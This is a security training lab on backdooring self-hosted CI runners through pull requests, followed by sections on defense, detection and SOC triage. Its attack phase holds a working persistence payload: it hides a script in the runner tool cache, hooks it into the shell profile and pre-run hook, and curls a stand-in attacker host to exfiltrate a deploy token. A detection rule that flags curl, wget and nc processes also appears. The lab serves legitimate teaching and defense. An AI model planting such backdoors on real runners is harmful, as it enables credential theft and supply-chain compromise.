

# Lab 2.5: Self-Hosted Runner Attacks

<div class="lab-meta">
  <span>~25 min hands-on | ~15 min reference</span>
  <span class="difficulty advanced">Advanced</span>
  <span>Prerequisites: <a href="2.1-cicd-fundamentals.md">Lab 2.1</a></span>
</div>

Unlike GitHub-hosted runners (fresh VMs destroyed after each job), self-hosted runners are persistent machines that retain state between workflow runs: files, environment variables, credentials, running processes. An attacker who gets code execution on a self-hosted runner via a PR can plant backdoors that survive across builds and affect every subsequent workflow on that machine. PyTorch and Kubernetes have been impacted by self-hosted runner misconfigurations.

### Attack Flow



---

## Environment

| Service | Address | Description |
|---------|---------|-------------|
| Gitea | `gitea:3000` | Git server hosting `wl-webapp` with CI runner |
| Runner | `runner:8080` | Self-hosted runner with persistent filesystem |
| Workstation | (your shell) | Development environment |

## Connect to the Workstation

```bash
./weaklink shell
```

---

???+ info "Phase 1: UNDERSTAND. Runners Retain State"

### Step 1: Examine the runner's filesystem

Examine the runner's workspace. Self-hosted runners persist files between jobs unless explicitly cleaned:

```bash
ls -la /runner/_work/
find /runner/_work/ -type f -name "*.log" 2>/dev/null
```

Self-hosted runners keep their `_work` directory, tool cache, and any files written outside the workspace.

### Step 2: Check what persists between jobs

Check what persists between CI jobs. Artifacts, environment files, cron jobs, and background processes from previous runs may still be active:

```bash
echo "--- Tool cache ---"
ls -la /runner/_work/_tool/

echo "--- Runner environment ---"
cat /runner/.env

echo "--- Cron jobs ---"
crontab -l 2>/dev/null

echo "--- Running processes ---"
ps aux | grep -v grep
```

Anything you install, write, or schedule persists until explicitly cleaned.

### Step 3: Review the workflow configuration

```bash
cd /repos/wl-webapp
cat .gitea/workflows/ci.yml
```

The workflow uses `runs-on: self-hosted` and triggers on `pull_request`. Any PR author gets code execution on the persistent runner.

### Step 4: Understand the attack surface

A self-hosted runner processing untrusted PRs gives attackers:

1. **Persistent filesystem access**. write files that survive across builds
2. **Credential theft**. steal tokens, SSH keys, cloud credentials on the machine
3. **Lateral movement**. network access to internal infrastructure
4. **Supply chain persistence**. modify build tools so every future build is compromised

---

???+ warning "Phase 2: BREAK. Backdoor Persistence"

### Step 1: Create an attack branch

```bash
cd /repos/wl-webapp
git checkout -b feature/update-tests
```

### Step 2: Inject a persistent backdoor via a PR

```bash
cat > test_helper.sh << 'PAYLOAD'
#!/bin/bash
echo "Setting up test environment..."

# === PERSISTENCE MECHANISM ===
mkdir -p /runner/_work/_tool/.hidden
cat > /runner/_work/_tool/.hidden/backdoor.sh << 'INNER'
#!/bin/bash
if [ -n "$DEPLOY_TOKEN" ]; then
  curl -sf "http://attacker.internal/collect?token=$DEPLOY_TOKEN&repo=$GITHUB_REPOSITORY" || true
fi
INNER
chmod +x /runner/_work/_tool/.hidden/backdoor.sh

# Hook into shell profile so it runs on every job
echo '/runner/_work/_tool/.hidden/backdoor.sh 2>/dev/null &' >> /runner/.bash_profile

# Alternative: modify pre-job hook
if [ -d /runner/hooks ]; then
  cp /runner/_work/_tool/.hidden/backdoor.sh /runner/hooks/pre-run.sh
fi

echo "Test environment ready."
PAYLOAD

chmod +x test_helper.sh
```

### Step 3: Add the payload to the workflow

```bash
cat > .gitea/workflows/ci.yml << 'EOF'
name: WeakLink Webapp CI

on:
  pull_request:
    branches: [main]

jobs:
  test:
    runs-on: self-hosted
    steps:
      - uses: actions/checkout@v4
      - name: Setup test environment
        run: bash test_helper.sh
      - name: Run tests
        run: python test_app.py
EOF
```

### Step 4: Submit the PR

```bash
git add -A
git commit -m "Update test framework setup"
git push origin feature/update-tests

curl -sf -X POST "http://gitea:3000/api/v1/repos/developer/wl-webapp/pulls" \
  -H "Content-Type: application/json" \
  -u "attacker:password" \
  -d '{"title":"Update test framework setup","base":"main","head":"feature/update-tests"}'
```

**Checkpoint:** You should now have a PR containing `test_helper.sh` that plants a backdoor in the runner's tool cache and shell profile, plus a modified workflow that executes it.

### Step 5: Verify the backdoor persists

```bash
ls -la /runner/_work/_tool/.hidden/
cat /runner/.bash_profile | grep backdoor
```

- **The PR does not need to be merged**. CI runs the attacker's code before review
- **The backdoor survives**. it persists in the runner's filesystem indefinitely
- **Cross-repo impact**. if the runner serves multiple repos, all are compromised

---

???+ success "Phase 3: DEFEND. Ephemeral Runners and Isolation"

### Fix 1: Use ephemeral (just-in-time) runners

```bash
cd /repos/wl-webapp
git checkout main
```

```bash
cat > /runner/config.yaml << 'EOF'
ephemeral: true
replace_existing: true

container:
  image: "ubuntu:22.04"
  options: "--rm --network=none"
  workdir: "/workspace"
EOF
```

### Fix 2: Apply workflow hardening

```bash
cat > .gitea/workflows/ci.yml << 'EOF'
name: WeakLink Webapp CI

on:
  push:
    branches: [main]

jobs:
  test:
    runs-on: self-hosted
    container:
      image: node:20-slim
      options: --rm --read-only --tmpfs /tmp
    steps:
      - uses: actions/checkout@v4
      - name: Run tests
        run: python test_app.py

  pr-test:
    if: github.event_name == 'pull_request'
    runs-on: ubuntu-latest  # Ephemeral GitHub-hosted runner for PRs
    steps:
      - uses: actions/checkout@v4
      - name: Run tests
        run: python test_app.py
EOF
```

### Fix 3: Add state verification between jobs

```bash
cat > /runner/hooks/pre-run.sh << 'CHECKEOF'
#!/bin/bash
EXPECTED_HASH="$(cat /runner/.state-hash 2>/dev/null)"
CURRENT_HASH="$(find /runner/_work/_tool -type f -exec sha256sum {} \; | sort | sha256sum | cut -d' ' -f1)"

if [ "$EXPECTED_HASH" != "$CURRENT_HASH" ]; then
  echo "::error::Runner state has been tampered with!"
  exit 1
fi

if crontab -l 2>/dev/null | grep -v '^#' | grep -q .; then
  echo "::error::Unexpected cron jobs detected on runner!"
  exit 1
fi

SUSPICIOUS=$(ps aux | grep -E '(curl|wget|nc|ncat)' | grep -v grep)
if [ -n "$SUSPICIOUS" ]; then
  echo "::error::Suspicious processes detected on runner!"
  exit 1
fi
CHECKEOF

chmod +x /runner/hooks/pre-run.sh
```

### Fix 4: Commit and push

```bash
git add -A
git commit -m "Harden runner: ephemeral mode, container isolation, state verification"
git push origin main
```

### Key defenses

1. **Ephemeral runners** (`--ephemeral`). runner exits after one job, no persistence
2. **Container isolation**. each job runs in a disposable container with `--rm`
3. **Never run untrusted PRs on self-hosted runners**. use GitHub-hosted for PR workflows
4. **State verification hooks**. hash the tool cache and check for tampering before each job

### Step 5: Final verification

```bash
weaklink verify 2.5
```

---

??? danger "Phase 4: DETECT. Catching Runner Persistence"

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Supply Chain Compromise: Compromise Software Supply Chain** | [T1195.002](https://attack.mitre.org/techniques/T1195/002/) | Attacker modifies build infrastructure to compromise future builds |
| **Scheduled Task/Job** | [T1053](https://attack.mitre.org/techniques/T1053/) | Persistence via cron jobs or shell profiles on the runner |

The key signal is filesystem modifications outside the workspace directory during a PR build.

Look for files written to `/runner/_work/_tool/`, `/runner/hooks/`, or runner home directories during PR jobs. Watch for new cron jobs, systemd services, or shell profile modifications. Monitor outbound network connections from the runner between jobs, process trees with children outliving the workflow job, and runner tool cache hash changes.

| Indicator | Type | Description |
|-----------|------|-------------|
| Files in `/runner/_work/_tool/.hidden/` | File | Hidden persistence directory in tool cache |
| Modified `/runner/.bash_profile` | File | Shell profile backdoor |
| New entries in `crontab` | Persistence | Scheduled task persistence |
| Processes surviving job completion | Process | Orphaned malicious processes |
| Outbound connections between jobs | Network | C2 or exfiltration from idle runner |

---

??? tip "SOC Relevance"

    **Alerts you will see:**

    - "Runner filesystem modified outside workspace during PR build" (runner audit)
    - "New cron job detected on CI runner" (endpoint monitoring)
    - "Runner state hash mismatch before job start" (pre-job hook)

    **Triage workflow:**

    1. **Check what was written**. inspect files created or modified outside the workspace
    2. **Check for persistence**. cron jobs, shell profiles, systemd services, startup scripts
    3. **Check process tree**. processes that outlived the workflow job?
    4. **Identify the trigger**. which PR or workflow run planted the persistence?
    5. **If confirmed: quarantine the runner**. take offline, image disk for forensics
    6. **Rebuild from scratch**. never trust a compromised runner
    7. **Audit all builds**. every build on the compromised runner after the attack is potentially tainted

    **False positive rate:** Low. Filesystem modifications outside the workspace during PR builds are inherently suspicious.

---

??? example "CI Integration"

    **`.github/workflows/runner-integrity.yml`:**

    ```yaml
    name: Runner Integrity Check

    on:
      # List your workflow names explicitly - wildcards are not supported
      workflow_run:
        workflows: ["CI", "Build", "Release"]
        types: [completed]

    jobs:
      verify-runner-state:
        runs-on: self-hosted
        steps:
          - name: Check for persistence mechanisms
            run: |
              echo "--- Checking for unexpected files ---"
              SUSPICIOUS=$(find /runner/_work/_tool -name "*.sh" \
                -newer /runner/.last-verified 2>/dev/null)
              if [ -n "$SUSPICIOUS" ]; then
                echo "::error::New scripts found in tool cache:"
                echo "$SUSPICIOUS"
                exit 1
              fi

              echo "--- Checking crontab ---"
              if crontab -l 2>/dev/null | grep -v '^#' | grep -q .; then
                echo "::error::Unexpected cron jobs found"
                exit 1
              fi

              echo "--- Checking shell profiles ---"
              for f in ~/.bash_profile ~/.bashrc ~/.profile; do
                if [ -f "$f" ]; then
                  HASH=$(sha256sum "$f" | cut -d' ' -f1)
                  EXPECTED=$(cat "/runner/.baseline/$(basename $f).hash" 2>/dev/null)
                  if [ "$HASH" != "$EXPECTED" ]; then
                    echo "::error::Shell profile $f has been modified"
                    exit 1
                  fi
                fi
              done

              touch /runner/.last-verified
              echo "Runner state verified clean."
    ```

---

## What You Learned

1. **Self-hosted runners retain state**. a single PR can plant backdoors in shell profiles, cron jobs, or the tool cache that persist indefinitely.
2. **Ephemeral runners eliminate persistence**. use `--ephemeral` mode or container isolation so each job starts clean.
3. **Never run untrusted code on self-hosted runners**. route PR builds to ephemeral GitHub-hosted runners.

## Further Reading

- [GitHub: Security hardening for self-hosted runners](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#hardening-for-self-hosted-runners)
- [Adnan Khan: Pwning Self-Hosted GitHub Runners](https://adnanthekhan.com/2023/12/20/one-supply-chain-attack-to-rule-them-all/)
- [Praetorian: Self-Hosted Runner Attacks](https://www.praetorian.com/blog/self-hosted-github-runners-are-backdoors/)
